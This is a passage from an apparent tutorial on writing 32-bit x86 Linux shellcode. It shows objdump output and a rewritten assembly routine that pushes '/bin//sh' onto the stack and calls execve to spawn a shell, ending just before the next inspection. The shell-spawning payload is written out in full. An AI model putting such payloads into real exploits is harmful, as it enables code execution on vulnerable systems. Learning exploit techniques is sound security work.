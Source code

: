 ```
$ objdump -dM intel shell32

basic_shell32:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:	b8 0b 00 00 00       	mov    eax,0xb
 8049005:	bb 00 a0 04 08       	mov    ebx,0x804a000 <----- assembler gives us this address
 804900a:	b9 00 00 00 00       	mov    ecx,0x0
 804900f:	ba 00 00 00 00       	mov    edx,0x0
 8049014:	cd 80                	int    0x80
```

Since we stored our `path` in a separate section (`.rodata`) the assembler
kindly passed the address of this to our `_start` section to our `mov ebx,
path` instruction. Unfortunately, this means we will not be able to inject this
program as shellcode as the program running the shellcode won't have this value
stored in that location of memory.

Let's rewrite with more direct access to the string we want to pass as the
path:

```asm
global _start
_start:

    ; push our string onto the stack
    push 0x0        ; null byte, terminate our string
    push 0x68732f2f ; "//sh"
    push 0x6e69622f ; "/bin"
    ; stack now looks something like:
    ; -----------
    ; | "/bin" |
    ; | "//sh" |
    ; |  "\0"  | 
    ; | ...... |
    ; ----------

    ; build syscall:
    ; you can find tables for syscall codes online
    mov eax, 0xb    ; execve(
    ; make ebx "point at" the top of the stack (our path)
    mov ebx, esp    ; "/bin/sh",
    mov ecx, 0x0    ; NULL,
    mov edx, 0x0    ; NULL)
    int 0x80        ; make the syscall
```

Assembling and running our program as before, and we see it works. Let's
inspect again:
